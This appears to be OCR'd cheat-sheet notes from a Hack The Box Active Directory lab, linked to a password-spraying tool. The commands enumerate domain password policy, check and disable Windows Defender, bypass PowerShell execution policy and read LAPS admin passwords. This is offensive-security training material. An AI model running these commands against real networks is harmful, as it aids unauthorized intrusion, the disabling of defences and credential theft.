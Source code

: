 https://github.com/dafthack/DomainPasswordSpray

## Enumerate password policy

```powershell
#Enumerate Password policy
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
Intrusionz3r0X@htb[/htb]$ enum4linux -P 172.16.5.5
Intrusionz3r0X@htb[/htb]$ enum4linux-ng -P 172.16.5.5 -oA ilfreight #Best Option
Intrusionz3r0X@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

#CMD
C:\htb> net accounts
#Powerview
PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```

## Security Controls

```powershell
#Checked if Defender was running
PS C:\htb> netsh advfirewall show allprofiles
C:\htb> sc query windefend

#Checking the Status of Windows Defender (RealTimeProtectionEnabled=True/False)
PS C:\htb> Get-MpComputerStatus

# Disable real time monitoring in Windows Defender
PS C:\>  Set-MpPreference -DisableRealtimeMonitoring $true

#Checked if Defender was running
PS C:\htb> netsh advfirewall show allprofiles
C:\htb> sc query windefend

#Enumerate Applocker policies
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

#Enumerating, enable and bypass Language Mode. 
PS C:\htb> $ExecutionContext.SessionState.LanguageMode
PS C:\htb>  Set-ExecutionPolicy unrestricted
PS C:\htb> powershell.exe -noprofile -executionpolicy bypass -file .\script.ps1

#Enumerating and read LAPS passwords
PS C:\htb> Find-LAPSDelegatedGroups
PS C:\htb> Find-AdmPwdExtendedRights
PS C:\htb> Get-LAPSComputers

#Displays the status of the host's firewall. We can determine if it is active and filtering traffic.
netsh advfirewall show state

#check the status and configuration settings Windows Defender
PS C:\htb> Get-MpComputerStatus

```
